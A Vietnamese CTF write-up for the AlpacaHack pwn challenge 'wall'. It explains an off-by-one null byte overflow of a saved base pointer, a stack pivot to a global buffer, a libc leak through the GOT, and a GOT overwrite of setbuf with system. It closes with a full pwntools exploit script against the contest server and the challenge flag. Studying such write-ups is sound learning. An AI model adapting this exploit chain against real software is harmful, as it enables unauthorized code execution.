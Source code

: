 ```yaml
---
title: AplacaHack pwn round6
date: 2025-03-06 00:00:00 +0800
categories: [writeup]
tags: [pwn,pivot]
author: "kuvee"
layout: post
toc: true 
---
```



## wall


- bài này mình không làm được trong lúc diễn ra giải nên hôm nay mình sẽ làm lại 

checksec : 

![image](https://hackmd.io/_uploads/B1kHRZqv1l.png)

- main : ta được nhập 4096 byte vào ```message``` , ```message``` ở đây là 1 biến toàn cục



```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  setbuf(stderr, 0LL);
  printf("Message: ");
  __isoc99_scanf("%4096[^\n]%*c", &message);
  get_name("%4096[^\n]%*c");
  return 0;
}
```

- get_name : ở đây ta thấy có 1 lỗi ```one_off_byte``` , scanf sẽ thêm byte NULL vào cuối và ghi đè 1 byte rbp của ```get_name```

```C
int __fastcall get_name(const char *a1)
{
  char v2[128]; // [rsp+0h] [rbp-80h] BYREF

  printf("What is your name? ");
  __isoc99_scanf("%128[^\n]%*c", v2);
  return printf("Message from %s: \"%s\"\n", v2, message);
}
```


- ở đây ta có thể thấy nếu may mắn , ```0x7fffffffd840``` là rbp của hàm ```get_name``` đang trỏ đến ```0x7fffffffd800``` là rbp của hàm main và lúc này nó đã bị ghi đè 1 byte và có nghĩa là khi kết thúc hàm main nó sẽ nhảy đến ```0x7fffffffd808``` và đó cũng chính là dữ liệu ta nhập vào 

![image](https://hackmd.io/_uploads/SJhmgMcD1g.png)

- ở bài này không có hàm win hay gì cả , vì vậy trước hết có lẽ là ta cần suy nghĩ leak libc trước , vì phiên bản libc này khá cao nên không còn các gadget như ```pop rdi``` nữa , vì vậy ta phải quay về chương trình của ta kiếm các gadget : 

- ở đây ta thấy nó sẽ ```lea rax,[rbp-0x80]``` các kiểu và ```rax``` sẽ được mov vào ```rsi``` , vậy có nghĩa ta hoàn toàn có thể nhờ đoạn này để leak chỉ cần ta điều khiển được ```rbp``` , và chắc chắn ```rbp``` ở đây sẽ là 1 địa chỉ got 
![image](https://hackmd.io/_uploads/B1LjOG9Dyx.png)

- tuy nhiên khi leak xong thì stack lúc này sẽ là 1 địa chỉ exe , có lẽ giải pháp dự định của tác giả cũng chính là điều này , ta hãy nhớ lại ta có thể nhập dữ liệu vào 1 biến global , vậy kết hợp các điều này với nhau ta có thể tạo thêm 1 chuỗi ```rop``` nữa : 

- một lần nữa nếu ta điều khiển được ```rbp``` thì ta hoàn toàn có thể dùng scanf để ghi đè bất cứ dữ liệu nào có thể ghi được , ở đây ta sẽ chọn ```setbuf``` vì nó chỉ có 1 đối số , ta sẽ truyền ```/bin/sh\x00``` vào thay cho ```stderr```
![image](https://hackmd.io/_uploads/By_29fcD1l.png)

- đoạn rop để leak libc sẽ như sau : 

ta sẽ cho vào các ret để tránh khi ghi đè ```rbp``` thì nó sẽ trỏ đến đúng chuỗi rop (tăng khả năng rop)

```coffeescript
ret
ret
ret
...
pop rbp,ret
got_setbuf
địa chỉ rop leak
```

- đoạn overwrite GOT : 

```css
ret
ret
ret
ret
...
pop_rbp,ret
địa chỉ overwrite scanf
```

- payload overwrite GOT :
![image](https://hackmd.io/_uploads/BkINnfcDkl.png)

```csharp
system : no sẽ thay thế setbuf got
main : overwrite got của printf thành main để nó quay về thực thi setbuf get_shell
0*6
stdout_libc + 0
stdin_libc + 0
/bin/sh\x00
```

script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./wall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe

#p = process()
p = remote('34.170.146.252', 18345)
#gdb.attach(p,gdbscript='''
#           b*0x0000000000401252
#           b*0x0000000000401257
#           b*0x00000000004011ac
#           ''')
input()

pop_rbp = 0x000000000040115d
rop_printf = 0x00000000004011b1
rop_scanf = 0x0000000000401196

setbuf_got = exe.got.setbuf

ret = 0x000000000040101a


rop_chain = p64(pop_rbp)
rop_chain += p64(setbuf_got+0x80)
rop_chain += p64(rop_scanf)

payload = p64(ret)*505 + rop_chain
#input()

rop_chain2 = p64(pop_rbp)
rop_chain2 += p64(setbuf_got+0x80)
rop_chain2 += p64(rop_printf)
payload2 = p64(ret)*13 + rop_chain2

p.sendlineafter(b'Message: ',payload)
p.sendlineafter(b'What is your name? ',payload2)

p.recvuntil(b'Message from ')
p.recvline()
p.recvuntil(b'Message from ')

leak_got_setbuf = u64(p.recv(6).ljust(8,b'\x00'))

libc.address = leak_got_setbuf  - libc.sym.setbuf
print("lb: ",hex(libc.address))

payload_get_shell = p64(libc.sym.system) + p64(exe.sym.main)
payload_get_shell += p64(0)*6
payload_get_shell += p64(libc.sym._IO_2_1_stdout_) + p64(0)
payload_get_shell += p64(libc.sym._IO_2_1_stdin_) + p64(0)
payload_get_shell += p64(next(libc.search(b'/bin/sh\x00')))

p.sendline(payload_get_shell)
p.sendline(b'ls')


p.interactive()
```


```Alpaca{p1v0T1ng_t0_Bss_i5_tR1cKy_du3_7o_st4Ck_s1Z3_Lim17}```


